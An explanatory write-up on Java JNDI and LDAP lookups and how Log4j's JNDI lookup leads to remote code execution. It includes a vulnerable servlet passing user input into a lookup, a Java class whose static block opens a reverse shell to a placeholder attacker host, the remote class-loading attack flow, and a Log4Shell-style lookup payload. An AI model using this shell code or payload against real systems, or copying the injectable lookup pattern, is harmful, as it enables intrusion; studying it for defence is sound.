



# JNDI Lookups 🎯

The Jndi Lookup allows variables to be retrieved via the Java Naming and Directory Interface (JNDI).

## JNDI?

> The Java Naming and Directory Interface (JNDI) is a Java API for a directory service that allows Java software clients to discover and look up data and resources (in the form of Java objects) via a name. Additionally, it specifies a service provider interface (SPI) that allows directory service implementations to be plugged into the framework.

### A Name?
* A `Naming service` maintains a set of relationships, also known as `bindings`, that link `names` to `objects`. This provides the capability to find an object based on a specific name using `lookup` or `search` operations.
* Many naming systems do not store objects directly. Instead, they store references to objects. Think about `Domain Name System (DNS)` services. DNS services store associations between [domain names](https://en.wikipedia.org/wiki/Domain_name) with other forms of information such as IP addresses to locate services and devices.
* JNDI is an interface ONLY. It does not implement the naming service.



### A Directory Service?
* This is an extension of a `Naming Service` that provides a way to manage the storage and distribution of shared information.
* This information is managed as a `directory of objects`. Think about [Microsoft Active Directory (AD)](https://en.wikipedia.org/wiki/Active_Directory), a service used to manage users and resources in a network environment.
* An object can be a person, a computer, a service, etc.
* Each object has attributes. For example, a user object can have attributes such as a name, e-mail address, job title, location, etc.
* The number of attributes of an object depends on the type of object and directory schema of the service.
* Directory services such as LDAP (the Lightweight Directory Access Protocol) provide both naming and directory functionality.
* JNDI is an interface ONLY. It does not implement the directory service.



### JNDI Service Provider Interfaces

As mentioned before, JNDI specifies a service provider interface (SPI) that allows directory service implementations to be plugged into the framework. Some examples are:

* Lightweight Directory Access Protocol (LDAP)
* Common Object Request Broker Architecture (CORBA) Common Object Services (COS) name service
* Java Remote Method Invocation (RMI) Registry
* Domain Name Service (DNS)

## A Local LDAP Context Factory and JNDI Lookup

Let's create a basic application to mimic the interaction with an LDAP server via a local JNDI lookup. This application initializes a context with a LDAP context factory, creates a binding between an LDAP search string and an object (string), and finally looks for it. We are going to use the [InitialDirContext](https://docs.oracle.com/javase/7/docs/api/javax/naming/directory/InitialDirContext.html) class to create the binding (directory operation) and the [lookup](https://docs.oracle.com/javase/7/docs/api/javax/naming/InitialContext.html#lookup(javax.naming.Name)) method to retrieve the named object. The `lookup` method is inherited from the [InitialContext](https://docs.oracle.com/javase/7/docs/api/javax/naming/InitialContext.html) class.

```
import java.util.Objects;
import java.util.Hashtable;
import javax.naming.directory.DirContext;
import javax.naming.directory.InitialDirContext;

// Define initial context
Hashtable<String, String> env = new Hashtable<String, String>();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
env.put(Context.PROVIDER_URL, "ldap://localhost:389");
DirContext ctx = new InitialDirContext(env);

// Bind string to directory object
String name = "cn=roberto,dc=va,dc=org";
ctx.bind(name, "wardog");

// Lookup directory object
String object = Objects.toString(ctx.lookup(name));

// Print results
System.out.println(name + " is bound to: " + object);
```

# What About a Remote Connection?

The code is similar. We need to define the IP address of the server providing the naming service in the `Context.PROVIDER_URL` property. In this scenario, we do not create a binding since that is already defined in the remote naming service.

One thing we can do is add the previous code to a java application that receives a `username`, queries an LDAP server via a JNDI lookup and returns additional information about the user.

```
import java.io.*;
import javax.servlet.ServletException;
import javax.servlet.http.*;
import javax.servlet.annotation.*;

import javax.naming.Context;
import javax.naming.InitialContext;

@WebServlet(name = "login", urlPatterns = {"/login"})
public class login extends HttpServlet {
  @Override
  protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String name = request.getParameter("name");
    
    PrintWriter out = response.getWriter();
    out.println("Getting information about: " + name + "!!");

    Hashtable<String, String> env = new Hashtable<String, String>();
    env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
    env.put(Context.PROVIDER_URL, "ldap://trusted-remote-server:389");
    InitialContext ctx = new InitialContext(env);

    String namePath = "cn=" + name + ",dc=va,dc=org";
    String object = Objects.toString(ctx.lookup(namePath));
    out.println("Results: " + object);
  }
}
```

In the example above, we took our local LDAP JNDI lookup example and added it to a more realistic use-case (basic). In addition, we showed an example where a user provides part of the string used by the JNDI lookup operation (`ctx.lookup()`). If a user had control over the whole string, the lookup operation could override the `Context.PROVIDER_URL` and point the lookup operation to his or her own controlled LDAP server.

```
ctx.lookup(ldap://untrusted-remote-server:389/cn=jose,dc=FL,dc=myorg)
```

This could also override the `Context.INITIAL_CONTEXT_FACTORY` and switch protocols:

```
ctx.lookup(rmi://untrusted-remote-server:1099/myobject)
```

## What Can Be Stored in Those Remote Locations?

* JNDI directory naming services have the ability to store Java objects and share them between applications.
* Instead of returning a simple string such as "Roberto", a Java object can be returned or referenced from another location.

## Requesting and Referencing Java objects in an LDAP directory (RFC 2713) 

According to [A-Journey-From-JNDI-LDAP-Manipulation-To-RCE paper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf) Java objects can be represented and stored in a Directory Service as a `JNDI Reference` or `Serialized Object`:

### JNDI References

A JNDI `Reference` is a Java object of class `javax.naming.Reference`.
It consists of class information about the object being referenced and an ordered list of addresses.
A reference also contains information to assist in the creation of an instance of the object to which the reference refers.
It contains the Java class name of that object, and the class name and location of the object factory to be used to create the object.

It is represented in the directory using the following attributes:

| Attribute | Definition |
| --- | --- |
| objectClass | javaNamingReference |
| javaClassName | Records the class name of the serialized object so that applications can determined class information without having to first deserialize the  object. |
| javaClassNames | Additional class information about the serialized object. |
| javaCodebase | Location of the class definitions needed to instantiate the factory class. |
| javaReferenceAddress | Multivalued optional attribute for storing reference addresses. |
| javaFactory | Optional attribute for storing the object factory's fully qualified class name. |

A few notes:
* The `javaCodebase` attribute can be any URL (e.g. http://untrusted-ip-address/) as long as the `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true`.
*  The `javaFactory` class is downloaded from the `javaCodebase` location as bytes.

A class can be something as simple as:

```
public class Run {
  static {
    try {
      String[] arrayOfString = {"/bin/bash","-c","/bin/bash -i >& /dev/tcp/untrusted-ip-address/443 0>&1"};
      Runtime runtime = Runtime.getRuntime();
      Process process = runtime.exec(arrayOfString);
      process.waitFor();
    }
    catch (Exception exception) {
      System.out.println(exception.toString());
    }
  }
}
```

Basic flow:
* Client -> JNDI Lookup -> `ldap://untrusted-ip-address:389/Run`
* LDAP server responds:
  * javaClassName : `foo`
  * javaCodeBase: `http://untrusted-ip-address:80/Classes`
  * objectClass : `javaNamingReference`
  * javaFactory: `Run`
* Client -> GET Request -> `http://untrusted-ip-address:80/Classes/Run.Class`
* Web Server responds -> Bytes
* Client processes bytes -> Executes action


### Serialized Objects
When an object is serialized, its state becomes transformed into a stream of bytes. The service provider takes the stream of bytes and stores it in the directory. When a client looks up the object, the service provider reconstructs it from the stored data. A serialized object is represented in the directory by the following attributes:

| Attribute | Definition |
| --- | --- |
| objectClass | javaSerializedObject |
| javaClassName | Records the class name of the serialized object so that applications can determined class information without having to first deserialize the object. |
| javaClassNames |  Additional class information about the serialized object. |
| javaCodebase | Location of the class definitions needed to deserialize the serialized object.|
| javaSerializedData | Contains the serialized form of the object.|

A few notes:
* For serialized objects the `javaCodeBase` attribute can be used to point to the URL used to load classes during deserialization. However, as mentioned before, remote class loading is possible only if the `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true`.
* If remote code loading is not trusted during LDAP object deserialization, an attacker can still use classes available on the local `CLASSPATH` to attack the application.

Basic flow using a class available on the local `CLASSPATH` of a Tomcat Server (More details here: https://www.veracode.com/blog/research/exploiting-jndi-injections-java):
* Client -> JNDI Lookup -> `ldap://untrusted-ip-address:389/Run`
* LDAP server responds:
  * javaClassName : `java.lang.string`
  * javaSerializedData: [A resource reference](https://docs.oracle.com/javase/7/docs/api/javax/naming/Reference.html) using unsafe reflection in `org.apache.naming.factory.BeanFactory` class
* Client processes serialized data -> Data gets desirialized -> Executes action



## How Is This Related to Log4j Again?

* `Log4j` has a lookup plugin for [JNDI Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup).
* JNDI Lookup allows variables to be retrieved via the Java Naming and Directory Interface (JNDI).
* If one can control the `lookup` input, then one could point to an untrusted LDAP server and reference untrusted java objects.
* The variable format for this lookup in Log4j is very simple:

```
${jndi:ldap//untrusted-ip-address:389/Run}
```

# References

* https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup
* https://logging.apache.org/log4j/2.x/manual/extending.html#Lookups
* https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface
* https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://cs.nyu.edu/~jcf/classes/g22.3033-007_sp01/handouts/g22_3033_h83.htm